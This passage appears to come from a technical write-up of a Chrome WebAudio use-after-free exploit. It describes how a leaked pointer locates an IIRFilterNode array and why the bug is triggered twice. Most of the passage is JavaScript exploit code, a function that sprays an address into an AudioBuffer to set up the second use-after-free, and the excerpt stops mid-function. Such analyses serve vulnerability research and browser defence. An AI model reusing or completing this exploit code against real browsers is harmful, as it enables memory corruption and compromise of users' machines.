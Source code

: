 


The exploit uses the leaked pointer to get the address of the raw pointer to the feedforward_ array with the AudioArray<double> type that is present in the IIRProcessor object created with IIRFilterNode. This array should be located in the same SuperPage, but in different versions of Chrome this object is created in different PartitionPages and there is a special code inside initialUAFCallback to handle that.
The vulnerability is actually triggered not once but twice. After the address of the right object is acquired, the vulnerability is exploited again. This time the exploit uses two AudioBuffer objects of different sizes, and the previously retrieved address is sprayed inside the larger AudioBuffer. This function also executes recursively.





let floatArray = new Float32Array(10);
let audioBufferArray1 = [];
let audioBufferArray2 = [];
let imageDataArray = [];
 
async function triggerSecondUAF(addr, doneCb) {
	let counter = 0;
	let numChannels = 1;
 
	let audioCtx = new OfflineAudioContext(1, 0x100000, 48000);
 
	let bufferSource = audioCtx.createBufferSource();
	let convolver = audioCtx.createConvolver();
 
	let bigAudioBuffer = audioCtx.createBuffer(numChannels, 0x100, 48000);
	let smallAudioBuffer = audioCtx.createBuffer(numChannels, 0x2, 48000);
 
	smallAudioBuffer.getChannelData(0).fill(0);
 
	for (let i = 0; i < numChannels; i++) {
    		let channelDataArray = new BigUint64Array(bigAudioBuffer.getChannelData(i).buffer);
    		channelDataArray[0] = addr;
	}
 
	bufferSource.buffer = bigAudioBuffer;
	convolver.buffer = smallAudioBuffer;
 
	bufferSource.loop = true;
	bufferSource.loopStart = 0;
	bufferSource.loopEnd = 1;
 
	bufferSource.connect(convolver);
	convolver.connect(audioCtx.destination);
 
	bufferSource.start();
 
	let finished = false;
 
     	audioCtx.startRendering().then(function(buffer) {
     		buffer = null;
 
    		if (finished) {
        		audioCtx = null;
 
